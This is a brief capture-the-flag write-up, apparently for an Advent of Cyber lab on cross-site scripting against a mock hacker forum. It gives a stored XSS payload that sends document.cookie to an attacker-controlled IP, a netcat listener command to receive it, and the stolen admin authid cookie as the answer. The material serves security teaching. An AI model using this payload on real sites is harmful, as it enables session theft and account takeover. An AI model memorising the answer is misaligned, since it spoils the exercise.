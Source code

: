 # [Day 18] ELF JS

## Description
McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.

Check out the supporting material here.

P.S. If you want to learn more about XSS, we have a room where you can learn about it in depth.

----

## Answer the questions below

Add a netcat listener and post the following payload
```
payload: <img src=x onerror=this.src='http://YOUR_IP:4444/?'+document.cookie;>


netcat: nc -lvnp 4444 
```

### What is the admin's authid cookie value?
Answer: `2564799a4e6689972f6d9e1c7b406f87065cbf65`
